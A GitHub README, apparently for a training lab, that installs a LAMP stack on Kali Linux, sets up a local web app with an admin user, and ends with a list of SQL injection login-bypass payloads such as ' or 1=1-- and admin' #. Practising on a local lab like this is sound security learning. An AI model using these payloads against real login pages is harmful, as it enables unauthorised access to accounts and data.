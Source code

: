 # Install Linux, Apache, MySQL, PHP  stack on Kali linux v20.4
  ## Step 1: Install Apache 
  ```sh 
   sudo apt-get update
   sudo apt-get install apache2
  ```
  ## Step 2: Install MySQL
  ```sh 
   $sudo apt update
   $sudo apt-get install mysql-server
   $sudo apt install mariadb-server
  ```
  ## Installing MariaDB
  ```sh 
   $sudo apt update
   $sudo apt install mariadb-server
  ```
 ## Download the Code :
 ```sh 
   git clone https://github.com/anir0y/verzeo-webapp 
  ```
  ## Copying the Downloaded folder
  ```sh
  /var/www/html/
  ```
  ## Starting the Services(Apache2,MySql)
  ```sh
  $sudo service apache2 start
  $sudo service mysql start
  ```
  ## Connecting the server with database
  ```sh
  $sudo mysql -u root
  ```
  > Creating a Table

```sh
     CREATE TABLE IF NOT EXISTS `users` (
     `id` int(11) NOT NULL AUTO_INCREMENT,
     `username` varchar(200) NOT NULL,
     `password` varchar(33) NOT NULL,
      PRIMARY KEY (`id`)
   )  ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;
```
> Inserting Values into the table
```sh
INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3');
```
## Creating User and granting permission
```sh
>create user 'user'@'localhost' identified by 'password';
>grant all privileges on 'table'.* to 'user'@'localhost' identified by 'password';
```
## Changing the Configuration file on dbconf
```sh
<?php
$con = new mysqli("127.0.0.1", "user", "password", "table");
if ($con -> connect_error){
    die("Database Not Congigured Properly");
}
else{
   // echo ("DB connection is established sir");
}
?>
```
## Next Steps

1.  Open any Web browser and try to connect the webserver 
```sh
 127.0.0.1/database/index.php/
```
   
# Steps to Bypass the Login Webpage
> Using sql injection trying different approached.
  * SQL Injection 101, Login tricks
    * Also uses '#' which is for comments, essentially causing SQL to ignore anything that would come after our injection
    * Might also try '--'
    * With - -, they put an (SM) next to it, meaning that it works for SQL Server & MySQL, and by the way it also works for SQLite, PostgreSQL, and Oracle.
    On the other hand, # sign also works with MySQL.
   ---


     * admin' --
     * admin' #
     * admin'/*
     * ' or 1=1--
     * ' or 1=1#
     * ' or 1=1/*
     * ') or '1'='1--
     * ') or ('1'='1--
> ![Final](https://github.com/rahulrbk/rahul.github.io/blob/master/Capture1.PNG)


